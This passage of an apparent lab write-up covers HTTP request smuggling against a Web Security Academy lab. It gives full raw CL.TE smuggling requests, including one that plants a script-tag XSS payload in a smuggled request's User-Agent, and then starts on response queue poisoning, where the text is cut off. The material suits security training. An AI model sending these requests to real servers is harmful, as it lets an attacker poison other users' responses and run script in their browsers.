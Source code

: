 If it times out, it could indicate it is vulnerable to a CL.TE attack. To confirm it via a differential response, replace it with a terminating chunk to indicate the request has ended and then poison with an invalid GET request with content type and content length. Additionally, set the body parameter and content length to 3 (`x=` with 1 additional byte):

```http
POST / HTTP/1.1
Host: 0a54003203f7944680bafe9700db0075.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Transfer-Encoding: chunked

0

GET /asdfsadfasdfsad HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```

If a normal request returns 404, it confirms the CL.TE vulnerability. To exploit it, try changing the path to the vulnerable page with XSS vulnerability and copy the XSS payload in the User Agent and add it to the smuggled request:

```http
POST / HTTP/1.1
Host: 0a54003203f7944680bafe9700db0075.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
User-Agent: foobar"><script>alert()</script>

x=
```

The popup may appear when a user navigates to the home page as it grabs the XSS request.
# Response Queue Poisoning

Response queue poisoning causes a front-end server to start mapping responses from the back-end to the wrong requests. It means all users of the same connection are persistently served responses that were intended for someone else.

It is achieved by smuggling a complete request, eliciting two responses from the back-end when the front-end only expects one.

For a successful attack:
